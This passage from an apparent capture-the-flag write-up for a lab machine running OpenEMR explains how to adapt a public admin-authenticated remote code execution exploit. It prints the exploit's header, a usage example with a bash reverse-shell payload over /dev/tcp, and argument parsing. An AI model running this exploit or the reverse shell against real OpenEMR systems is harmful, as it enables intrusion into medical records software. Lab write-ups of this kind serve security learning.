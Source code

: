 Trying these credentials on the main page of the OpenEMR website grants us access!

**openemr_admin:xxxxxx**


## Getting a Shell

Once we've logged in, we can use a RCE exploit (since we're an admin user), but we'll have to modify it a bit first:

https://www.exploit-db.com/exploits/45161

We need to visit http://hms.htb/interface/super/edit_globals.php, hit "Save" and catch the request with Burp (or ZAP). We'll now go into the exploit, remove form_284 from our request, and replace the old payload with our new one, so we don't overwrite any settings and mess up the box for other users. Once we've done this, we can run the exploit!

Fixed exploit:

```
# Title: OpenEMR < 5.0.1 - Remote Code Execution
# Author: Cody Zacharias
# Date: 2018-08-07
# Vendor Homepage: https://www.open-emr.org/
# Software Link: https://github.com/openemr/openemr/archive/v5_0_1_3.tar.gz
# Dockerfile: https://github.com/haccer/exploits/blob/master/OpenEMR-RCE/Dockerfile 
# Version: < 5.0.1 (Patch 4)
# Tested on: Ubuntu LAMP, OpenEMR Version 5.0.1.3
# References:
# https://www.youtube.com/watch?v=DJSQ8Pk_7hc
'''
WARNING: This proof-of-concept exploit WILL replace the GLOBAL config.
If you don't want the OpenEMR config to be reset to default, please modify
the payload.

Example Usage: 
- python openemr_rce.py http://127.0.0.1/openemr-5_0_1_3 -u admin -p admin -c 'bash -i >& /dev/tcp/127.0.0.1/1337 0>&1'
'''

#!/usr/bin/env python

import argparse
import base64
import requests
import sys

ap = argparse.ArgumentParser(description="OpenEMR RCE")
ap.add_argument("host", help="Path to OpenEMR (Example: http://127.0.0.1/openemr).")
ap.add_argument("-u", "--user", help="Admin username")
ap.add_argument("-p", "--password", help="Admin password")
ap.add_argument("-c", "--cmd", help="Command to run.")
args = ap.parse_args()

ascii = "> .---.  ,---.  ,---.  .-. .-.,---.          ,---.    <\r\n"
ascii+= ">/ .-. ) | .-.\ | .-'  |  \| || .-'  |\    /|| .-.\   <\r\n"
ascii+= ">| | |(_)| |-' )| `-.  |   | || `-.  |(\  / || `-'/   <\r\n"
ascii+= ">| | | | | |--' | .-'  | |\  || .-'  (_)\/  ||   (    <\r\n"
ascii+= ">\ `-' / | |    |  `--.| | |)||  `--.| \  / || |\ \   <\r\n"
ascii+= "> )---'  /(     /( __.'/(  (_)/( __.'| |\/| ||_| \)\  <\r\n"
ascii+= ">(_)    (__)   (__)   (__)   (__)    '-'  '-'    (__) <\r\n"
ascii+= "                                                       \r\n"
ascii+= "   ={>   P R O J E C T    I N S E C U R I T Y   <}=    \r\n"
ascii+= "                                                       \r\n"
ascii+= "         Twitter : >@Insecurity<                       \r\n"
ascii+= "         Site    : >insecurity.sh<                     \r\n"
```